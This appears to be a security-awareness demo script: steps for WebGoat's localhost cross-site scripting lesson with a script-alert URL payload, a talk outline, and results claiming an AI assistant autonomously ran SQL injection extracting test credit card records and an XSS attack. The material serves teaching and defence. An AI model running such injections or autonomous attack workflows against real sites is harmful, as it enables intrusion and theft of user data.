### Exact Steps:
1. Navigate to: `http://127.0.0.1:8080/WebGoat/start.mvc?username=adminrpza#lesson/CrossSiteScripting.lesson/7`
   - **Note:** URL shows lesson/7 but displays as "Lesson 8" in UI (zero-indexed URLs)
2. Look for the lesson content with XSS attack link
3. Click the link containing: `CrossSiteScripting/attack5a?QTY1=1&QTY2=1&QTY3=1&QTY4=1&field1=<script>alert('my%20javascript%20here')</script>4128+3214+0002+1999&field2=111`
4. Switch to the new tab that opens automatically
5. **Expected Result:** `"lessonCompleted": true` + JavaScript executed

### ✅ **EXECUTION VERIFIED:** Link click opens new tab automatically, JSON response confirms success

### ✅ Verified XSS:
- **Working XSS payload:** `<script>alert('my javascript here')</script>`
- **Attack vector:** URL parameter injection
- **Confirmation:** JSON response with `lessonCompleted: true`
- **Actual results:** Full JSON: `{ "lessonCompleted" : true, "feedback" : "Congratulations, but alerts are not very impressive are they? Let's continue to the next assignment.", ...}`
- **Execution time:** ~20 seconds (faster than expected)

## Presentation Flow

### Opening (30 seconds)
*"Everyone uses AI to code faster. What happens when attackers use AI to hack faster?"*

### Demo SQL (1 minute)
*"Copilot, break into the database"*
[Show 15+ records with credit cards]
*"30 seconds. Autonomous. Hours of work automated."*

### Demo XSS (1 minute)
*"Copilot, hijack the browser"*
[Show JavaScript execution + lessonCompleted: true]
*"20 seconds. Zero human input. Complete compromise."*

### Closing (30 seconds)
*"AI reduces 8-hour penetration tests to 50 seconds. Use AI for defense before attackers use it for offense."*

## 🎯 **LIVE EXECUTION RESULTS** 🎯

### ✅ **September 14, 2025 - Demo Executed Successfully**
- **Total Demo Time:** ~50 seconds (significantly faster than estimated)
- **SQL Injection:** ✅ SUCCESS - 15 credit card records extracted
- **XSS Attack:** ✅ SUCCESS - JavaScript executed, lesson completed
- **Automation:** ✅ FLAWLESS - Browser automation worked perfectly
- **Key Insight:** Direct URL navigation is 100% reliable, faster than manual clicking
